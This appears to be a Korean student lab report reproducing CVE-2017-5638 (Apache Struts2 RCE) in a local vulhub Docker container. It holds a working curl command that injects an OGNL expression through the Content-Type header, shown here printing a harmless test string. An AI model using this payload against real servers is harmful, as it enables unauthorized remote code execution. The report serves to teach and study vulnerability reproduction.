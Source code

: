 # CVE-2017-5638 (Apache Struts2 RCE) 실습 보고서
## 1. 개요
이번 보고서는 Apache Struts2 프레임워크의 Content-Type 필드 처리 취약점(CVE-2017-5638)을 도커를 이용해 재현하고, 실제 공격이 가능한지 실습한 내용을 정리한 것이다. 이 취약점은 서버에서 외부 입력을 제대로 검증하지 않아 원격 코드 실행(RCE)로 이어질 수 있는 심각한 문제를 일으킨다.

## 2. 실습 환경
- Host OS: Windows 11
- Docker Version: 28.0.4
- Docker Compose Version: 2.34.0

## 3. 실습 과경
3.1. 취약한 환경 구성
먼저 vulhub 레포지터리를 클론하고, Struts2 s2-045 취약 버전이 설정된 디렉터리로 이동했다. 이후 docker-compose를 이용해 컨테이너를 띄웠다.

git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045
docker compose up -d
컨테이너가 정상적으로 구동되었고, localhost:8080로 접근할 수 있었다.

(여기에 [컨테이너 띄운 캡처] 삽입 예정)

3.2. 환경 구축 결과
컨테이너가 정상적으로 올라가면서 Struts2 쇼케이스 페이지가 동작하는 것을 확인했다.

## 4. 취약점 검증 (PoC)
4.1. 공격 시도
curl 명령어를 이용해 Content-Type 헤더에 OGNL 표현식을 삽입해 요청을 보냈다.

curl -v -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ctn=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#ctn.getWriter().println('vulnerable')).(#ctn.getWriter().flush())}" http://localhost:8080/struts2-showcase/upload.action

(여기에 [PoC 성공 캡처] 삽입 예정)

4.2. 결과 확인
응답 본문에 vulnerable이라는 문자열이 출력되면서, 서버에서 OGNL 표현식이 실제로 실행된 것을 확인했다. 이를 통해 취약점이 존재함을 직접 검증할 수 있었다.

## 5. 느낀점
이번 실습을 통해 도커로 취약한 환경을 빠르게 구성하고, 실제 취약점이 어떻게 악용될 수 있는지를 직접 체험할 수 있었다. Struts2처럼 널리 사용되는 프레임워크에서도 입력값 검증이 제대로 안 되면 큰 문제가 발생할 수 있다는 점을 실감했다. 실습을 진행하면서 PoC 과정이 생각보다 간단해서 보안 관리의 중요성을 다시 느꼈다.

## 6. 참고 자료
Vulhub Struts2 S2-045 환경
CVE-2017-5638 상세정보 - NVD

## 7. GitHub 레포 핑크
https://github.com/soonnae/vulhub/tree/master/struts2/s2-045
